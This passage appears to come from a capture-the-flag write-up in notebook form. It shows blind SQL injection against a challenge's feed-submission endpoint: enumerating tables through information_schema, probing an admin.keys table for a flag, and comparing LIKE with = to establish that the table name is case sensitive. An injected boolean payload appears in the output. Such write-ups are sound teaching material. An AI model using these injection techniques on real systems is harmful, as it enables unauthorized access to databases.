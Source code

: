 We now know there is a table `admin.keys`, so let's see if there is a flag in there to leak.


```python
query_challenge_union("keys")
```




    (None, 'error', <Response [500]>)




```python
query_challenge_union("admin.keys")
```




    (None, 'error', <Response [500]>)




```python
res = query_challenge_union("admin.keys")
res[2].text
```




    '{"error":"Failed!"}'



Uh oh, looks like if we try to query `admin.keys` it seems to give us a server error, instead of the expected errors we identified earlier. After some more digging, we found that our enumeration just now was _case insensitive_. The table name was actually `Keys` with a caiptal `K`. It seems that the `LIKE` filter we used earlier is configured to give case insensitive comparisons. We can confirm this by comparing behavior to the `=` operator.


```python
[
    print(i)
    for i in
    [
        "LIKE operator",
        query_challenge_union("information_schema.columns", "table_name LIKE 'Keys'"),
        query_challenge_union("information_schema.columns", "table_name LIKE 'keys'"),
        "= operator",
        query_challenge_union("information_schema.columns", "table_name = 'Keys'"),
        query_challenge_union("information_schema.columns", "table_name = 'keys'")
    ]
]
```

    LIKE operator
    (True, 'Feed with same title already exists!', <Response [500]>)
    (True, 'Feed with same title already exists!', <Response [500]>)
    = operator
    (True, 'Feed with same title already exists!', <Response [500]>)
    (False, "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'keys') != 0 AND '1'='1; no new feeds allowed!", <Response [200]>)
